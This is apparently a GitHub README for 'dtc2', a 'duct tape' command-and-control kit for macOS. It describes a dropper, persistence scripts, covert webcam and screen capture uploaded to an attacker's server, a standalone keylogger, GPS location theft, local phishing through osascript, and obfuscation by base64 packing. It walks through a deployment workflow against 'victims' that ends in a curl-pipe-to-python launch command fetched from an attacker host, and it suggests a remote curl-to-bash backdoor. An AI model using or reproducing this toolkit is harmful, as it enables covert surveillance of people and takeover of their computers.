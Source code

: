 # dtc2
Duct Tape Command and Control!

# WARNING
You will ABSOLUTELY NEED to go into these files and edit them: cups.sh, launch.sh, tunnel.sh, upload.php, snapshot.sh. There are placeholders for where you need to put the domain or ip or host you intend to host some of these things on, and some small tweaks, but nothing that won't take you ~3 minutes. It's worth considering creating a 'generator' shellscript to spit out the 'finished' versions of these files so that you don't have to edit a bunch of files every time you wish to use dtc2. That's for later though :)
------

# DISCLAIMER
Most of this code has been cobbled together, duct tape and bailing wire style (duct tape c2, get it now?), it is horribly vulnerable, and could use a lot of polish and work.
------

# A quick file list:
- **Airport.sh**: this is just a shortcut to the airport binary on OSX
- **geo.m**: you compile this into a binary to get GPS coords from macs
- **tunnel.plist**: this is a plist that runs tunnel.sh, to make sure an ssh tunnel stays alive (not required, but there in case you need it)
- **imagesnap**: a binary that takes webcam pics (yes, it does fire the green light)
- **launch.sh**: this is the initial dropper. It creates dirs, and installs files, scripts binaries, etc, launches first evil things. You'll want to modify this.
- **cups.sh**: This is the main runscript that runs every 30 minutes. Modify this as you see fit.
- **tunnel.sh**: a simple bash loop to keep an ssh tunnel alive.
- **gallery.html**: a terrible, but simple drop-in gallery
- **snapshot.sh**: a terrible shellscript to take pictures of desktop/webcam and upload them to the crappy upload.php catcher
- **getImages.php**: this builds the imagelist for the gallery html
- **style.css**: css for gallery
- **upload.php**: terrible file upload catcher. gets files for you and dumps them in a gallery dir
- **osascript.sh**: an example of osascript, used to locally-phish a user. try it on yourself! :D
- **almondrocks72.py**: A slightly modified version of the almondrocks python proxy, for python 2.7
- **almondrocks3.py**: Same thing, but for python3.
- **printdebug**: The ruby keylogger, torn out of powershell empire so it is standalone. It writes to /tmp/debug.db.
- **printproxy**: the "proxy2" python proxy, for python 2.7, slightly modified so that it listens on more than localhost
- **packer.py**: a thin layer of obfuscation - encodes shellscripts into base64, and runs them through python to hide cleartext. Probably a good idea to run on cups.sh, launch.sh and snapshot.sh once you're done editing them. Remember to chmod things correctly and change the file extention in launch.sh if you use this. It'll create .py files. Just make sure everything lines up.
------

# WORKFLOW:
  buy hosting/vm -> setup webserver/letsencrypt/basicauth/etc -> upload files -> create all your payloads -> stand up your listeners -> edit launch.sh and cups.sh -> pack .sh files -> upload -> launch using **curl -s haxsite.lol/launch.py | python &**

You may also want to drop the gallery files into place somewhere so you can upload them. It is **STRONGLY ADVISABLE** to use letsencrypt and apache/nginx basic auth so that your victims can't just stumble across your files, and that you aren't transmitting things in the clear.
------

# PIRATE
In this directory are some files:
- **WebViewScreenSaver.saver**: a screensaver file, borrowed from https://github.com/liquidx/webviewscreensaver - modified so that the default url to open is **file:///tmp/pirate/index.html**
- ** css, js, scss, index.html**: an HTML5, animated version of the archer pirate virus, with no sound
- **wannacry.jpg**: a screenshot of the wannacry ransomware application window
- **launch.sh**: the script that does the thing.

Launch.sh, when run, will drop the piratevirus files and the jpg into /tmp, it will drop the .saver file into ~/Library/Screen Savers/, then it will set the screensaver options in osx to require a password, and set the wait time for the password to 0. It'll then use osascripting to set the wannacry jpg to the desktop on all available desktops, and then select the webviewscreensaver as the main screensaver, and launch it.
------

As an exercise left to the reader, at this point you can elect to install the plist for an ssh tunnel if you wish, or modify cups.sh to conduct any sort of post-exploit ops you wish. 

One idea is to add another 'curl to bash' line at the end and have it fetch somethinglike 'additonal instructions' as a shellscript to run in the event you want an asycnchronous command to be run, say in the event you lose all of your shells, or they install little snitch or something. 

Please help me make this thing awesome?
